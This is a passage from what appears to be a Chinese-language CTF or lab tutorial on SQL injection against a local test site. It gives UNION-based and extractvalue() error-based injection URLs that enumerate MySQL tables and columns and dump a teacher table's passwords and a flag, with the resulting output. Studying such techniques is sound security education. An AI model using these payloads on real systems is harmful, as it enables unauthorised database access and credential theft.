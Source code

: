 ```
http://127.0.0.1:8000/?student_id=2019122001' and 1=2 union select group_concat(table_name),2,3 from information_schema tables where table_schema=database()%23
```

查到的结果是`student,teacher`、2、3



同理我们查列，用`SQLI -> MySQL -> Dump columns from database`

```
http://127.0.0.1:8000/?student_id=2019122001' and 1=2 union select group_concat(column_name),2,3 from information_schema.columns where table_schema=database()%23
```

查到的结果是`id,name,majority,id,name,card_passwd,age`，这是这两张表所有的列，此时我们不知道哪个列对应哪个表，我们再加一个条件

```
http://127.0.0.1:8000/?student_id=2019122001' and 1=2 union select group_concat(column_name),2,3 from information_schema.columns where table_schema=database() and table_name='teacher'%23
```



有了表和列，我们可以查数据了

```
http://127.0.0.1:8000/?student_id=2019122001' and 1=2 union select group_concat(id),group_concat(name,age),group_concat(card_passwd) from teacher%23
```

结果是

| 学号              | 姓名                          | 专业                                     |
| ----------------- | ----------------------------- | ---------------------------------------- |
| 78820,91723,88915 | Terry43,Fry34,Steve36,Tomia45 | 829012,114514,234231,flag{SQL_Inj3ct10n} |



### 使用extractvalue()函数完成例题

我们用extractvalue函数拼接出以下请求

```
http://127.0.0.1:8000/?student_id=1%27 and extractvalue(1,concat(0x0a,(select group_concat(card_passwd)from teacher)))%23
```

得到了如下报错信息，发现报错信息太长了，部分内容不显示了

```
XPATH syntax error:'829012,114514,234231,fag{SQL_1'
```

我们优化一下请求，从后20位开始截取

```
http://127.0.0.1:8000/?student_id=1%27 and extractvalue(1,concat(0x0a,(select substr((select group_concat(card_passwd)from teacher),20))))%23
```

得到了如下报错信息，由此我们可以学到，如果长度不够，可以尝试截取，

